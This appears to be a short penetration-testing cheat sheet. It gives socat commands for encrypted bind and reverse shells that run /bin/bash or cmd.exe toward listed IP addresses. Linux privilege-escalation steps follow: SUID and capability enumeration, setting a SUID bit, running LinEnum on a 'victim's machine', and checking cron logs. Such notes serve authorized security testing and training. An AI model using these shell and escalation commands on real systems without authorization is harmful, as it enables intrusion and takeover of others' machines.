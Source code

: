 ## Encrypted Shell
Socat Bind Shell
```
# Create Cert and Key
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
# Create .pem file
cat bind_shell.key bind_shell.crt > bind_shell.pem
# Setup Listener
sudo socat OPENSSL-LISTEN:443,cert=bin_shell.pem,verify=0,fork EXEC:/bin/bash
# OR Setup Listener with
sudo socat -d -d OPENSSL-LISTEN:443,cert=rev_shell.pem,verify=0,fork STDOUT
# Connect
socat - OPENSSL:10.10.10.10:443,verify=0
# OR Connect with
socat OPENSSL:192.168.119.223:443,verify=0 EXEC:'cmd.exe',pipes

```

# Privilege Escalation
Resources:
* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation
* https://payatu.com/guide-linux-privilege-escalation
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#linux---privilege-escalation

## Get Capabilities
```
/sbin/getcap -r / 2>/dev/null
```

## Unix Privesc Check
* [unix-privesc-check](https://pentestmonkey.net/tools/audit/unix-privesc-check)

## LinEnum
Download [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) and run it on victim's machine. 

## Setuid bits
* https://gtfobins.github.io/
``` 
# Find SUID files
find / -user root -perm -4000 2>/dev/null
# Set UID bit
chmod u+s /script
```
## Search for executed cronjobs
```
grep "CRON" /var/log/cron.log
```
